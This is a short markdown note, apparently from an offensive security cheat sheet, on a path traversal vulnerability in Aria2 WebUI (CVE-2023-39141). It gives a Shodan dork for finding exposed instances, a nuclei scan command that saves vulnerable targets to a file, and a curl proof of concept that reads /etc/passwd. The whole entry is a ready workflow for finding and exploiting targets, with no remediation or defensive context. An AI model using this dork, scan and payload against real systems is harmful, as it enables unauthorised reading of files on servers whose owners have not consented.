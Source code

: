 ### Aria2 WebUI - Path traversal

#### Tag
```Aria2 WebUI```

#### Dorks
```
Shodan - title:"Aria2 WebUI"
```

#### Nuclei Scanning
```
nuclei -l urls.txt -t ~/.local/nuclei-templates/http/cves/2023/CVE-2023-39141.yaml -o vulnerable-targets.txt
```

#### Exploit-POC
```
curl --path-as-is http://<target>:8888/../../../../etc/passwd
```
